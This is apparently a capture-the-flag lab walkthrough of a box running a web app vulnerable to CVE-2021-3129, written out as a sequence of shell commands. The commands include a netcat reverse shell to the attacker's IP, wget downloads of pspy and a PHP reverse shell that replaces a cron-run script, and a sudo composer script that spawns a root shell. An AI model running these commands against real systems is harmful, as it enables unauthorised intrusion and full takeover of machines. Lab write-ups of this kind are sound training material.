









We start by registering on the website hosted at the box’s IP address. We then enable debug mode and use a PoC for CVE-2021-3129 (https://github.com/0x0d3ad/CVE-2021-3129) to obtain a reverse shell on the machine.
 git clone https://github.com/0x0d3ad/CVE-2021-3129 python3 CVE-2021-3129.py http://192.168.180.38 --cmd 'nc -c sh 192.168.45.239 8080'  We obtain a reverse shell:  We then enumerate the machine with pspy using our reverse shell connection as user www-data. This allows us to identify any cron jobs or scripts being executed locally. cd /tmp wget http://192.168.45.239/pspy64 chmod +x pspy64 ./pspy64  Here we see a PHP script is being executed:  We replace the PHP script with a PHP reverse shell and wait for it to be executed. cd /var/www/html/lavita mv lavita lavita.old wget http://192.168.45.239/rev.php mv rev.php lavita chmod +x lavita  rlwrap nc -lvnp 8080  We now have a reverse shell connection as user skunk. We notice that he is allowed to run the following command as root with no password: /usr/bin/composer --working-dir=/var/www/html/lavita We first upgrade our shell to a TTY shell. We then use our old shell as user www-data to insert a composer script in the directory /var/www/html/lavita. Finally, we execute the script with composer as root and obtain a root shell. From our shell as user www-data: echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json  From our shell as user skunk: python3 -c 'import pty; pty.spawn("/bin/bash")' sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x 